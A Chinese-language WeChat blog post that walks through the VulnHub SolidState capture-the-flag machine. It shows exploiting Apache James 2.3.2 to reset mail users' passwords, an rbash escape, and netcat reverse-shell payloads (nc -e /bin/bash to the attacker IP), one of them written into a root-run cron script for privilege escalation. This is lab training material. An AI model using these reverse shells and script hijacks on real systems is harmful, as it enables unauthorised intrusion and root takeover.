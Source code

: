 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1UarBclRp1aLmDUEiYZhig)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **41** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/5ria5WVLahGj8W7vu6J2jzTGqRtEaL6ib9CDzENq8PCEZADfU3JXsmibNacJhY7rooNoYIpCsUytNS0k4UcSsnRfw/640?wx_fmt=png)

靶机地址：https://www.vulnhub.com/entry/solidstate-1,261/

靶机难度：中级（CTF）

靶机发布日期：2018 年 9 月 12 日

靶机描述：

它最初是为 HackTheBox 创建的

目标：得到 root 权限 & 找到 flag.txt

请注意：对于所有这些计算机，我已经使用 VMware 运行下载的计算机。我将使用 Kali Linux 作为解决该 CTF 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/XxZOJAn437TAwOeYFBI2JiamRa34iaqY1IAPG9MaXSIKgPlBicRoyoyHPr0q6YUAhLTYebc4z2qjok0r1riadSujeg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FAf3SbzREv1yEsWZqMDExrPvhOutWaLH9VkgQiaS11ia5Y3Xun2olnDwIhLlOiaMWe0UGE1uMpeHx4ma7lOjn8xpQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VtRWAxRvv7GXYcc2w086cwOxcc4libkI8ibn6rD3yBlZ7vd0fH2TaYMKicrgibMcRBbxTQ5fbCJs4AgldkHtBiaPOdA/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_svg/kSiaeFj92SMyLghhftE2Ls37f4uZP8ZCOxbnsSQ1P6n6AsfOBzt5PrmdTAS3OOhPMXiabAsyKKf4QuEfoCrj9yLNlmkc5ddlpQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJR4Yz4b0jxos7DmwhMkTdTzGiae82MQdlL2cSBdhtiaR1qqPJ7KhVeWEw/640?wx_fmt=png)我们在 VM 中需要确定攻击目标的 IP 地址，需要使用 nmap 获取目标 IP 地址：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJXVJ9egPLxlj7zwTz5xkOqSico3BaQZTibU36g3JZQqafia4sV43ZM2o7g/640?wx_fmt=png)

我们已经找到了此次 CTF 目标计算机 IP 地址：

```
192.168.182.139
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJQ6bUxKh79yiblmQTS6PN1vUtibuBcCMexjibshFBato0zvHvgAm9xzDvg/640?wx_fmt=png)

nmap 发现了 22（ssh）、25（smtp）、80（http）、110（pop3）、119（nntp）、4555（admin）端口是开放的...4555 还是 james-admin JAMES Remote Admin 2.3.2... 存在漏洞

```
[链接](https://www.exploit-db.com/exploits/35513)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJiabzJQnEqPicyRtJ5qa47uHkNQqK9k6aGYHZnYfuJOyU5QMKFOG9PXcQ/640?wx_fmt=png)

dirb 和 nikto，以及 gobuster 都没发现什么...

这边直接看看 4555... 这边需要用 nc 链接... 因为是 Remote Admin Service...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJFO6lSRhNCehWo4rKlhziaww3EFJ0It6etMiar5qH4cYZPzGza8xib437Q/640?wx_fmt=png)

```
nc 192.168.182.139 4555
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJYarwL6nnP2g9O89cQRWBI1tgwnFntyxp0vjpIzyl2pjfmSJWY4pcWA/640?wx_fmt=png)

listusers 命令可以发现服务器上的邮件列表... 发现五个用户...

还能执行 `setpassword [username] [password] `

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJrUAVcoostrwziaOEicm979lSbM2mFvwx7BlGvEl9u3wkFlsRA6kx8ISw/640?wx_fmt=png)

使用命令将五个用户都修改密码成 dayu... 方便我们去渗透...

现在有了 pop3 的用户名密码，进去看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJfib828Bu5o7wibzogGNIoZSx5vmDnj2eufesTVmdbsdczHFLeOLn9fYQ/640?wx_fmt=png)

john 的邮件信息是祝我好运... 没啥有用的.. 继续换...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJL2WTib0o8Byp0icUI2hkfqkch6H94S0jF25Pu6ltYaEtlkavySwDrtOg/640?wx_fmt=png)

可以看到 James 从管理员帐户向 Mindy 发送了邮件，并共享了他的 SSH 登录凭据，在 mindy 用户邮件中看到了账号密码...pass:

```
P@55W0rd1!2@
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJnkkoe96iaESISj3FLYeiaicGg1FR8L4qCgavnPqyrjRbWgY77Viaw7x7Mw/640?wx_fmt=png)

成功登陆 mindy 用户...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJruxWn8DMuUnwByvQ5UfubL8KfR8pwua7NG4ZFpYHVRYsjgERYfAyIA/640?wx_fmt=png)

可以看到 mindy 用户可以利用 / bin/rbash / 进行反向 shell 提权... 或者利用前面 nmap 就知道了 Apache James Server 2.3.2 在运行着... 并利用 35513EXP 进行渗透...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJQjM820P1tUSut7u4enMTK5ia9qUwiaJ8iadNoNXAM8sBwkrtKIjAM4fag/640?wx_fmt=png)

```
ssh mindy@192.168.182.139 "export TERM=xterm; python -c 'import pty; pty.spawn(\"/bin/sh\")'"
```

直接利用一句话就能提权...

或者用：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJjbPLwt0THg3X4Upu40Wyop7UCf2iac86FH0IYy49vX2AadQW1Nibj33Q/640?wx_fmt=png)

在本地找就行，或者在 exploit 上下载也行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJurfSEhHS6FYQq1fickJjn7pCpusic7Cpqm8uWb25MNBt8CicSamkVe9eA/640?wx_fmt=png)

这要做个修改...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJ8Fr8BftPaHzG3dzA2ODOq1mOv8VVdOayLSE6qMic19bummg8ibI1Suicw/640?wx_fmt=png)

```
nc -e /bin/sh 192.168.182.149 8000
```

  （攻击者 IP）  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJPcZZrslvE3B38PU7hT4FRFyDFKcAeNz4uqqTSYmcL9fa07rfk7N9nw/640?wx_fmt=png)

```
python 35513.py 192.168.182.139
```

修改好后，直接执行即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJ77yXEO22RWNKclLXd6vjYjaL9nk7YEzgiaeJ29CWVBOIdOLpxaCNe4g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJXY37W1NnTmnWzAxpJHox62cshbXl12O5J242tNY3LuZbFLEtWbricWg/640?wx_fmt=png)

重新 ssh 访问 mindy 用户后，直接本地开启 8000 监听即可... 成功提权... 还有各种方法原理是一样的，就不说了...

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJXpJWRfhq6UUQpw4M1aibFZ41002za9m6LhrwASWpOO4Z6mKQWf9cuFg/640?wx_fmt=png)

在 mindy 用户下完成了第一个挑战，查看到了 user 内容...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJQ0Ha4Y28M2la5tVK6fHjskyUA4gwzX2cxPMLagS1EdrjQKPgrEwytA/640?wx_fmt=png)

```
ps aux | grep james
```

因为前面能进入 mindy 用户是通过 James 那里得到的提示，james 发了邮件给 mindy... 这边我查看下 james 运行过程..

显示了 opt 作为根进程.. 进去看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJwz2HTKFraHToUrle6HLB0npK0glPzKd6xjjNib8HB3peX33IjYRzccw/640?wx_fmt=png)

有个 tmp.py 程序应该可以利用下，试试

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJDjy1uuiaQrQSHUg0Gu9LT6kMcguUJ208hicicwZCVeA7S3fS76hyC3Uicw/640?wx_fmt=png)

直接写入即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJGO8uibJnI87t4rVxod41Gx5GgycMmAFvkExdZcVtjCeJT4yh6xsgiaIw/640?wx_fmt=png)

```
echo 'import os; os.system("/bin/nc 192.168.182.149 4444 -e /bin/bash")' > /opt/tmp.py
```

```
或者命令：echo "os.system('/bin/nc -e /bin/bash 192.168.182.149 4444')" >> tmp.py
```

或者在本地创建 tmp.py 文件，然后 wget 上传到 tmp 目录 cp 放到 opt 目录运行即可....

这边 crontab 在 root 的帐户下运行的，大约 2~3 分钟就会自动运行一次.. 等待即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJtqJERZbmwU0yZbgw7FGtPJfFkTF5YGUgkl4uUBejdXoqAia39pObOvA/640?wx_fmt=png)

成功提权... 获得 root 权限查看 flag....

![](https://mmbiz.qpic.cn/mmbiz_png/5ria5WVLahGj8W7vu6J2jzTGqRtEaL6ib9CDzENq8PCEZADfU3JXsmibNacJhY7rooNoYIpCsUytNS0k4UcSsnRfw/640?wx_fmt=png)

这篇主要熟悉 Apache James Server 2.3.2 可利用漏洞... 或者熟悉文件上传 python 利用也可以... 最后就是找到用户底层可运行利用的 py、php 和 sh 等文件，进行修改利用即可...

由于我们已经成功得到 root 权限和 flag，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/XxZOJAn437TAwOeYFBI2JiamRa34iaqY1IAPG9MaXSIKgPlBicRoyoyHPr0q6YUAhLTYebc4z2qjok0r1riadSujeg/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)